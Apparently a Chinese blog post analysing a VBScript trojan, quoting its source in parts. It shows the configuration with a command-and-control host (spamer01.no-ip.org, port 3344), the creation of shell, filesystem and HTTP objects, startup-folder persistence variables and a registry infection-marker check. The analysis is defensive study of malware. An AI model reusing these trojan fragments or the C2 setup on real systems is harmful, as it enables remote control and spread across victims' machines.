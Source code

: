 {% highlight vb %}
host = "spamer01.no-ip.org"
port = 3344
installdir = "%temp%"
lnkfile = true
lnkfolder = true
{% endhighlight %}

看样子是个木马。

设置了一些变量，这些分别是创建出来的WshShell对象，文件系统对象，xmlhttp对象：

{% highlight vb %}
dim shellobj
set shellobj = wscript.createobject("wscript.shell")
dim filesystemobj
set filesystemobj = createobject("scripting.filesystemobject")
dim httpobj
set httpobj = createobject("msxml2.xmlhttp")
{% endhighlight %}

又设置了一些变量，其中：

`installname`存储它自己的名字；  
`startup`存储开机启动文件夹的路径；  
`installdir`内容变为存储之前`installdir`对应的环境变量的真实路径（上面作者预设的是`%temp%`）；  
接着检查上步得到的`installdir`路径是否存在，不存在则采用默认的`%temp%`（属于二次确认）；  
`spliter`内容是`<|>`估计是用来解析数据；  
`sleep`定义了睡眠时间是5000毫秒。  
还有一些其他变量，但没有具体初始化，到后面用到再说。

{% highlight vb %}
installname = wscript.scriptname
startup = shellobj.specialfolders ("startup") & "\"
installdir = shellobj.expandenvironmentstrings(installdir) & "\"
if not filesystemobj.folderexists(installdir) then  installdir = shellobj.expandenvironmentstrings("%temp%") & "\"
spliter = "<" & "|" & ">"
sleep = 5000
dim response
dim cmd
dim param
info = ""
usbspreading = ""
startdate = ""
dim oneonce
{% endhighlight %}

万事俱备，它开始搞事情了（后面会直接引用上面的变量进行说明）。

首先是一句`on error resume next`，即当前语句执行出错时不要终止，而是执行下一条语句，在VBS里这条语句使用频率非常高。

接着调用`instance`函数（VB中函数可以带返回值，过程不可以）,其功能是：

尝试读取`HKEY_LOCAL_MACHINE\software`下是否存在以它的名字命名的项。  
如果无（说明当前主机没有被感染），则判断它自己是否处于某个盘的根目录下（应该是通过这个方式来判断自己是不是在U盘里），是的话则向注册表`HKEY_LOCAL_MACHINE\software`下写入一个以它的名字命名的项，值为`"true - "`加当前日期，不是的话则写入同样的项，值变为`"false - "`加当前日期。接着执行`upstart`。  
如果有（说明当前主机已被感染），直接执行后面的`upstart`。
